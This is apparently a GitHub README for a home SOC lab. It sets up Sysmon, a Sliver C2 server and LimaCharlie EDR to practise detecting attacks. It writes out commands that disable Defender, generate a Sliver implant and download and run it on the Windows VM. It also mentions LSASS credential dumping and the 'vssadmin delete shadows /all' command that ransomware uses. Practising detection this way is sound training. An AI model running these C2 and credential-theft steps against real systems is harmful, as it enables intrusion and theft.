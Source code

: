 # SOC-Analyst-Lab

## Objective

To simulate real-world SOC (Security Operations Center) scenarios and gain hands-on experience in detecting and responding to cyber threats. The primary focus was to ingest and analyze logs within an Endpoint Detection and Response system, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen my understanding of network security, attack patterns, and defensive strategies.

### Skills Learned

- Setting up a virtual SOC environment.
- Configuring EDR agents and logging tools.
- Simulating adversarial attacks (e.g., dumping LSASS).
- Crafting detection and response rules.
- Enhanced knowledge of network protocols and security vulnerabilities.
- Automating malware detection and blocking ransomware activity.
- Development of critical thinking and problem-solving skills in cybersecurity.

### Tools Used
- VMware Workstation Pro: For setting up Linux and Windows virtual machines.
- Sysmon: Provides detailed Windows telemetry.
- Sliver C2: Command and Control server for testing adversarial scenarios.
- LimaCharlie EDR: Endpoint Detection and Response for telemetry and automated rules.

## Steps
After diving into a few blog posts on how to become a SOC analyst, I set up my own virtual lab, following the steps from Eric Capuano’s guide. It was quite the process but worth the effort for hands-on experience in cybersecurity.

# **1. Setting up the Lab Environment:**
I started by setting up two virtual machines (VMs), one for Windows and another for Linux, using VMware. This is where I spent time configuring both, including setting static IPs and installing Sysmon on the Windows VM for granular logging (Sysmon really helps in detecting subtle activity). I disabled Windows Defender through the Group Policy Editor and registry tweaks to make sure nothing interfered with my attack scenarios. 

a. Download Sysmon with the following command.
- [Invoke-WebRequest -Uri https://download.sysinternals.com/files/Sysmon.zip -OutFile C:\Windows\Temp\Sysmon.zip]

b. Unzip Sysmon.zip
- [Expand-Archive -LiteralPath C:\Windows\Temp\Sysmon.zip -DestinationPath C:\Windows\Temp\Sysmon]

c. Download SwiftOnSecurity’s Sysmon config.
- [Invoke-WebRequest -Uri https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Windows\Temp\Sysmon\sysmonconfig.xml]

d. Install Sysmon with Swift’s config.
- [C:\Windows\Temp\Sysmon\Sysmon64.exe -accepteula -i C:\Windows\Temp\Sysmon\sysmonconfig.xml]

# **2. Command and Control (C2) Setup:**
Next, I set up a Sliver Command and Control (C2) server on the Linux VM. Once it was running, I generated a C2 payload and executed it on the Windows VM via PowerShell. It was exciting when the session checked back into the Sliver server! At this point, I could execute commands on the target machine, including whoami and netstat to gather information about the compromised system.

e. Run the following commands to download Sliver, a Command & Control (C2) framework by BishopFox. I recommend copy/pasting the entire block as there is line-wrapping occurring.
- [# Download Sliver Linux server binary
wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -O /usr/local/bin/sliver-server
#Make it executable
chmod +x /usr/local/bin/sliver-server
#install mingw-w64 for additional capabilities
apt install -y mingw-w64]

f. Launch Sliver server
- [sliver-server]

g. Generate our first C2 session payload
- [generate --http [Linux_VM_IP] --save /opt/sliver]

h. Confirm the new implant configuration
- [implants]

**To easily download the C2 payload from the Linux VM to the Windows VM, let’s use a little python trick that spins up a temporary web server.**
- [python3 -m http.server 80]

i. Now run the following command to download your C2 payload from the Linux VM to the Windows VM, swapping your own Linux VM IP [Linux_VM_IP] and the name of the payload we generated in Sliver [payload_name] a few steps prior.
- [IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe]

# **3. Simulating Attacks:**
I took it a step further by simulating adversarial activities like dumping the lsass.exe process, a common technique for stealing credentials. Using LimaCharlie’s EDR platform, I could see the related events in real-time and learned how to craft custom detection rules based on sensitive processes like lsass.exe. I even created a rule to trigger alerts for these actions and to block them in the future.

# **4. Detection and Response Automation:**
Once the basics were working, I moved on to automating detection using YARA rules and crafted response actions in LimaCharlie. For example, I set up a rule to scan newly downloaded .exe files and automatically alert or quarantine them if flagged. I also played with blocking shadow copy deletion commands (used by ransomware) by building detection logic that terminates the offending process.

# **5. Reflection:**
Setting this lab up was not only fun but really highlighted the workflow a SOC analyst would go through. The importance of detection tuning, understanding baseline behavior, and working with EDR platforms became clear. Now, I feel more confident exploring adversary techniques and crafting detections.
After learning to detect attacks, I took things a step further by creating rules to block ransomware-like activities, such as the deletion of volume shadow copies. I built a custom Detection and Response (D&R) rule using LimaCharlie to identify and terminate the parent process whenever a command like vssadmin delete shadows /all is executed. By rerunning the attack and testing the rule, I was able to successfully block the process, further enhancing the defenses of my virtual SOC environment.

For anyone interested in SOC work, this series of blog posts is a great place to start!

If you're curious, you can follow the same steps through these blog links:

- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part">Part 1 </a>
- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part-ea2">Part 2 </a>
- <a href="https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-part-77e">Part 3 </a>
